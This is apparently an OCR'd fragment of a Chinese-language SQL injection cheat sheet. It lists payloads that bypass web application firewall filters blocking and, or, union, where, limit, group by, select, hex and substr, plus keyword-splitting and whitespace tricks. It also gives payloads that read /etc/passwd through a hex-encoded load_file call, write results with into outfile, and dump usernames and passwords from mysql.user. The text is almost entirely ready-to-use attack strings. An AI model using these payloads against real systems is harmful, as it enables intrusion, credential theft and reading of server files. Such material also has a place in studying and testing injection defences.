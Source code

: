 ```
过滤：union select user, passwd from users
绕过：1 || (select user from users where user_id = 1) = 'admin'
```

* 同时过滤and，or，union，where

```
过滤：1 || (select user from users where user_id = 1) = 'admin'
绕过：1 || (select user from users limit 1) = 'admin'
```

* 同时过滤and，or，union，where，limit

```
过滤：1 || (select user from users limit 1) = 'admin'
绕过：1 || (select user from users group by user_id having user_id = 1) = 'admin'
```

* 同时过滤and，or，union，where，limit，group by

```
过滤：1 || (select user from users group by user_id having user_id = 1) = 'admin'
绕过：1 || (select substr(group_concat(user),1,5) from users) = 'admin'
```

* 同时过滤and，or，union，where，limit，group by，select

```
过滤：1 || (select substr(group_concat(user),1,5) from users) = 'admin'
绕过：1 || 1 = 1 into outfile 'result.txt'
绕过：1 || substr(user,1,5) = 'admin'
绕过：1 || user_id is not null
绕过：1 || substr(user,1,1) = 0x61
绕过：1 || substr(user,1,1) = unhex(61)
绕过：1 || substr(user,1,1) = lower(conv(11,10,36))
```

* 同时绕过and，or，union，where，limit，group by，select，hex，substr

```
过滤：1 || substr(user,1,1) = lower(conv(11,10,36))
绕过：1 || lpad(user,7,1)
```

### 移除关键词

```
绕过：1+UNunionION+SEselectLECT+1,2,3 --
绕过：1+uni%0bon+se%0blect+1,2,3 --
```

### 敏感函数

```
version()%0b


将version()换成@@version


`函数名`() 等价于 函数名()
SQL> id=1 and(select `load_file`(0x2f6574632f706173737764) is not null)

SQL> id=1614444.0Union(select-1.0,password,3,4,5,6,7,`user`FROM(`mysql`.user))
这里关键是反单引号的使用,成功逃过了敏感字符串“mysql.user”。
id=161444.0有两个作用,第一让原来的查询返回空，第二这是一个小数，小数后可以直接接关键字，而不用空格。
```
